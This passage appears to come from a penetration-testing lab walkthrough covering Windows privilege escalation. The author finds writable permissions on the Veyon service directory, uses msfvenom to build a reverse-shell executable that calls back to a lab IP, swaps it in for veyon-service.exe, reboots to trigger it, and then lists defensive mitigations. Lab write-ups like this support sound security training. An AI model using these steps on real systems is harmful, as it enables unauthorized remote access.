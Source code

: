 I am gonna put exploit called `Ela` in Users directory, but we don’t have permission to do that.

```powershell
icacls c:\users
```

![image.png](image%2023.png)

I checked permissions of `Veyon` directory and see that our user has full permissions:

![image.png](image%2024.png)

I am gonna change `veyon-service.exe` to malicious one.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.159 LPORT=4445 -f exe -o veyon-service.exe
```

As it set to `AUTO-START` and we have `SeShutdownPrivilege` privilege I am gonna try restart the machine:

```powershell
shutdown /r /t 0
```

![image.png](image%2025.png)

## Mitigation

- Avoid exposing **credentials in public-facing content** such as team pages or metadata.
- Implement **multi-factor authentication (MFA)** to reduce the risk of single-password compromises.
- Disable or sandbox **macro execution and external scripting in office documents** by default.
- Keep all **installed applications up to date** and apply relevant security patches.
- Monitor email and system activity for **unusual behavior**, such as unexpected document execution.
